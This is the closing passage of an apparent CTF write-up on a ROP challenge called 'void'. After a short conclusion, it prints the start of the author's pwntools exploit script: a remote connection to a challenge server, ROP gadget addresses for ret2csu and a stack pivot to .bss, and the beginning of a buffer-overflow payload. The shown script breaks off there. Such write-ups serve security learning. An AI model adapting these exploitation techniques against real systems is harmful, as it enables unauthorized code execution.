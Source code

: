 We finalize obtaining a shell and the flag as below.

![](https://github.com/dplastico/dplastico.github.io/raw/main/_posts/img/2023-03-24-13-41-16.png)

## conclusion

This may seem like a really "not-smart" exercise to do, but for me that I enjoy doing ROP I think it's a great way to sharpen your skills and be creative, not always relying on automation.

I want to thank the CTF organizers and the people sharing their solutions and comments after the CTF on discord. 

## Final exploit

Here's the final exploit. It is not curated, so comments may contain misspellings and wrong descriptions.

```python
#!/usr/bin/python3
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./void')
libc = elf.libc

# config for tmux
#context.terminal = ['tmux', 'splitw', '-hp', '70']

def start():
    if args.GDB:
        return gdb.debug('./void', gdbscript=gs)
    if args.REMOTE:
        return remote('104.248.169.177', 30954)
    else:
        return process('./void')
r = start()
#========= exploit here ===================

#gadgets
pops = 0x4011b2 #pop gadget from ret2csu pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
poprsi = 0x00000000004011b9 # pop rsi; pop r15; ret;
poprbp = 0x0000000000401109 # pop rbp; ret; 
poprdi = 0x00000000004011bb # pop rdi; ret;
rw_section = 0x404100
leaveret = 0x40115c # to pivot to .bss
fini_ptr = 0x403048
bss = 0x404030
ret2csu_gdg = 0x401198

# 1 overflow
payload = b"A"*0x48
```